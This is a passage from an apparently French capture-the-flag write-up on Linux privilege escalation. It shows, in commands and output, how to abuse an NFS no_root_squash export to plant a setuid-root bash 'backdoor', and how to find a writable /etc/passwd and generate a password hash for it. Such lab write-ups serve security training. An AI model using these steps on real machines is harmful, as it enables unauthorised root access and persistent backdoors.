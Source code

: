 ```plain

/home/user5 *(rw,no_root_squash)
```

Depuis ma machine je monte le partage en root et j'y place un shell setuid 0. Ma machine est celle du CTF sont sous la même architecture (x86\_64) donc aucune difficulté.  

```plain
root@kwak:/tmp# cd
root@kwak:~# cd /tmp/
root@kwak:/tmp# mkdir yolo
root@kwak:/tmp# mount -t nfs 192.168.3.2:/home/user5 yolo
root@kwak:/tmp# cd yolo/
root@kwak:/tmp/yolo# cp /bin/bash backdoor
root@kwak:/tmp/yolo# chmod 4755 backdoor
```

Et depuis la cible :  

```plain
user5$ ls -l
total 200
-rwsr-xr-x 1 root  root  154072 Jul  6 21:12 backdoor
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Desktop
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Documents
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Downloads
-rwxrwxr-x 1 user5 user5     34 Jul  6 19:06 ls
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Music
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Pictures
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Public
-rwsr-xr-x 1 root  root    8392 Jun  4 15:57 script
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Templates
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Videos
user5$ ./backdoor -p
# id
uid=1004(user5) gid=1004(user5) euid=0(root) groups=1004(user5)
```

User7 vers root
---------------

Faisant partie du groupe root on va bien trouver un fichier quelconque pour notre escalade de privilège...  

```plain
$ find /etc/ -writable -type f  2> /dev/null
/etc/papersize
/etc/hostname
/etc/default/keyboard
/etc/ld.so.conf.d/fakeroot-x86_64-linux-gnu.conf
/etc/skel/.config/mimeapps.list
/etc/skel/.config/xfce4/desktop/icons.screen0-1350x721.rc
/etc/skel/.config/xfce4/panel/whiskermenu-10.rc
/etc/skel/.config/xfce4/panel/datetime-2.rc
/etc/relinux/relinux.conf
/etc/relinux/relinux/wubi/wubi.exe
/etc/relinux/relinux/isolinux/isolinux.cfg.vesamenu
/etc/relinux/relinux/splash/splash.png
/etc/relinux/relinux/version
/etc/relinux/relinux/preseed/custom.seed
/etc/passwd
/etc/timezone
/etc/fstab
/etc/passwd-
/etc/hosts
$ openssl passwd -1 -salt user9 s3cr3t
$1$user9$JUQJ5MIu8N.kJJmfhHrfc0
```